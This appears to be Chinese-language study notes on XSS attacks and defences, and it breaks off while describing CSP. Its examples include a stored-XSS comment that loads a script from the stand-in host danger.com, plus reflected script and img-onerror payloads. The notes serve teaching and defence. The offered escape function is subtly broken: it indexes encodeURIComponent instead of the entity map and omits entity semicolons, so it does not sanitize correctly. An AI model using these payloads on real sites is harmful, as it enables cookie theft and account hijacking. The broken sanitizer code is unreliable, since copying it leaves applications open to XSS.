 XSS （盗取cookie，劫持用户行为，钓鱼攻击，挂马）

- 攻击
    - 渲染过程中产生了一些预期外的指令
    - 访问页面时插入脚本执行
- 分类
    - 反射型 <script>alert('aa')</script>
    - 存储型（留言） input弹窗中，提交脚本信息。
    - 基于DOM
    > 区别：存储型 XSS 的恶意代码存在数据库里，反射型 XSS 的恶意代码存在 URL 里。
- case:
    ```bash
    // 存储型
    // 当我们在做商品评论时，用户输入的内容未经过过滤直接保存到数据库中。
    质量非常不错！<script src="danger.com/spread.js"></script>
   
   // 当你的评论列表被用户浏览时， 直接从服务端取出，回填到HTML响应中：
    <li>质量非常不错！<script src="danger.com/spread.js"></script></li>
    那么浏览器会加载执行恶意脚本danger.com/spread.js， 在恶意脚本中利用用户的登录状态发更多的带有恶意评论的URL， 诱导更多人点击，层层传播，放大攻击范围。
   
   // 反射型
   http://localhost:8080/helloController/search?name=<script>alert("hey!")</script>
   http://localhost:8080/helloController/search?name=<img src='w.123' onerror='alert("hey!")'>
   ```
- 原因
    - 用户输入或url中的参数，没有做过滤，不合法参数到web服务器
- 防御
    - 对输入&输出&URL过滤
    ```javascript
    const signs = {
      '&': '&amp',
      '<': '&lt',
      '>': '&gt',
      '"': '&quot',
      "'": '&#39'
    }
    const signReg = /[&<>"']/g
    function escape(string) {
            return (string && signReg.test(string))
                ? string.replace(signReg, (chr) =>encodeURIComponent[chr])
                : string
        } 
    ```
    > 此方法不适用于富文本，因为HTML标签种类繁多，基于黑名单的过滤方法考虑的并不全面，所以我们可以根据白名单过滤HTML, 可以借助xss.js来完成：
    ```bash
    // 浏览器
    <script src="https://raw.github.com/leizongmin/js-xss/master/dist/xss.js"></script>
    
    // 使用
    filterXSS('<h1 id="title">XSS Demo</h1><script type="text/javascript">alert(/xss/);</script>
    <p class="text-center">Whitelist</p>')
    
    // 输出
    <h1>XSS Demo</h1>&lt;script type="text/javascript"&gt;alert(/xss/);&lt;/script&gt;
    <p>Whitelist</p>
    ```
    - cookie 设置 http-only （js脚本无法读取cookie）
    ```bash
    ctx.cookies.set(name, value, {
        httpOnly: true // 默认为 true
    })
    ```
    - CSP
    > CSP (Content Security Policy，内容安全策略)是 W3C 提出的 ，本质上就是白名单制度，开发者明确告诉浏览器哪些外部资源可以加载和执行。它的实现和执行全部由浏览器完成，我们只需提供配置。
    
    > 通过 HTTP 头信息的Content-Security-Policy的字段
